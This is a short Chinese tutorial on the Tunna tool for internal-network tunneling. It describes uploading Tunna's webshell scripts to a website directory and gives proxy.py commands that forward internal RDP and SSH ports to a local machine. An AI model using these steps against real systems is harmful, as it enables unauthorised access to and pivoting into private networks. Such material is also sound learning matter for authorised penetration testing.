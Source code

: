 ```yaml
---
title: Tunna
id: zhfly3454
---
```


## Tunna 实现内网穿透

### Github地址

```
https://github.com/SECFORCE/Tunna 
```

### 注：Tunna是python2环境

下载到本地之后在webshells目录里有三种格式的脚本如下图

![image](../img/19be6ff71c898729de1e6eaa4d216e8d.png)

将对应格式的脚本文件传到网站目录中

然后本地执行

```
python proxy.py -u http://192.168.0.1/conn.php -l 6666 -r 3389 -v 
```

如上命令是将内网主机的3389端口转发到本地的6666端口上

本地直接用mstsc链接127.0.0.1：6666即可

```
python proxy.py -u http://192.168.0.1/conn.php -l 6666 -a 172.0.0.2 -r 3389 
```

如上命令是将内网其他主机的3389端口转发到本地的6666端口上

```
python proxy.py -u http://172.0.0.1/conn.php -l 1234 -r 22 -v -s 
```

## 如上命令，加上-s参数是为了避免连接ssh中断

还有MSF利用tunna转发的方式，这里不做介绍了